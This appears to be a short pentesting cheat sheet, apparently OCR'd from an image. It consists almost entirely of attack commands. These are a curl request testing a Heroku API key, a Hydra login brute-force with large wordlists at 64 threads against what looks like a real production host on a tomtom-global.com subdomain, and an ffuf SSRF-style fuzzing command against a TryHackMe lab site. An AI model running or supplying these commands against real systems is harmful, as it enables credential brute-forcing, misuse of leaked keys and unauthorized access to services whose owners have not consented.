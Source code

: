 

Heroku API check 
`curl -X POST https://api.heroku.com/apps -H "Accept: application/vnd.heroku+json; version=3" -H "Authorization: Bearer $HEROKU_API_KEY"`

hydra usage/ Authentication bypass
`sudo hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P password-biglist.txt -u -f  minimap-fusion.prod.lt.tomtom-global.com  https-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials" -V -t 64`


`ffuf -u 'http://nahamstore.thm/stockcheck' -c -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#'`
-fw is meant to filter out and is mw is for matching the word length


 